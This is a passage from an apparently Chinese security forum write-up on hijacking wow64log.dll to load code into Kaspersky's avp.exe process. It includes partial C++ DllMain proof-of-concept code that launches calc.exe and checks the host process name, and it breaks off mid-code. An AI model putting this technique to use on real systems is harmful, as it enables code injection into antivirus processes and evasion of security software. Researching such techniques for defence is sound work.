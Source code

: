 可以看到加载了一批windows的DLL

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-393faf44731a4e574655285025c6414702be3aa9.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_48%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

后面加载的是卡巴斯基自身的DLL，我们看一下Wow64log.dll

查看一下Wow64log.dll是否在KnownDlls中

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-79d8405905e436c66cae5a34e6117f79b9a37c4f.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_40%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

wow64log.dll与 WoW64 Windows 机制有关，该机制允许在 64 位 Windows 上运行 32 位程序。该子系统会自动尝试加载它，但是它不存在于任何公共 Windows 版本中。

C:\\Windows\\System (Windows 95/98/Me)  
C:\\WINNT\\System32 (Windows NT/2000)  
C:\\Windows\\System32 (Windows XP,Vista,7,8,10)  
如果是64位文件C:\\Windows\\SysWOW64

作为管理员，我们可以构造恶意 wow64log.dll 文件复制到 System32 。

例如：  
`  
include "pch.h"  
include &lt;windows.h&gt;  
include &lt;tlhelp32.h&gt;  
include &lt;stdio.h&gt;  
include &lt;iostream&gt;  
include &lt;map&gt;

BOOL APIENTRY DllMain(HMODULE hModule,  
DWORD ul\_reason\_for\_call,  
LPVOID lpReserved  
)  
{  
STARTUPINFO si = { sizeof(si) };  
PROCESS\_INFORMATION pi;  
CreateProcess(TEXT("C:\\\\Windows\\\\System32\\\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &amp;si, &amp;pi);

switch (ul\_reason\_for\_call)  
{  
case DLL\_PROCESS\_ATTACH:  
char szFileName\[MAX\_PATH + 1\];  
GetModuleFileNameA(NULL, szFileName, MAX\_PATH + 1);

//check if we are injected in an interesting McAfee process  
if (strstr(szFileName, "avp") != NULL  
//|| strstr(szFileName, "mcshield") != NULL  
|| strstr(szFileName, "avp.exe") != NULL  
) {  
DisableThreadLibraryCalls(hModule);  
}  
else  
{  
}
